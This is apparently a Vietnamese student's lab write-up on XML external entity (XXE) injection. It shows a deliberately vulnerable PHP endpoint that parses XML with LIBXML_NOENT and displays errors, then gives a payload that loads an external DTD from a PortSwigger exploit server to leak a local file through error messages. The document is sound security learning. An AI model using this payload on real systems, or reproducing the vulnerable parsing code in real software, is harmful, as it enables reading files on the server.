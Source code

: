 - Em có đoạn check như sau:



```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $xml = file_get_contents('php://input');
    if ($xml) {
        $data = simplexml_load_string($xml, null, LIBXML_NOENT);
        if ($data !== false) {
            $productId = $data->storeId;

            echo "The productId is: " . $productId;
        } else {
            echo "Failed to parse XML data";
        }
    } else {
        echo "No XML data received";
    }
} else {

    echo "Only POST requests are allowed";
}
?>

- Lưu ý là phải set hiển thị thông báo lỗi

ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

```

- Khi mà em chọn vật phẩm thì sẽ gửi đến 1 xml đến sever và sẽ nhận được id vật phẩm đã chọn ạ

- ![alt text](image.png)

- Em sẽ cho sever load 1 file dtd do em tạo ra, ở đây em mượn sever của portswigger
- file của em như này
![alt text](image-1.png)

- ![alt text](image-2.png)

- Em sẽ tạo một entity để load file dtd này:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ad7006003a1331480fb4d8901b5007a.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```
- Và kết quả em nhận được thông tin của file hii.txt ở thông báo lỗi ạ
![alt text](image-3.png)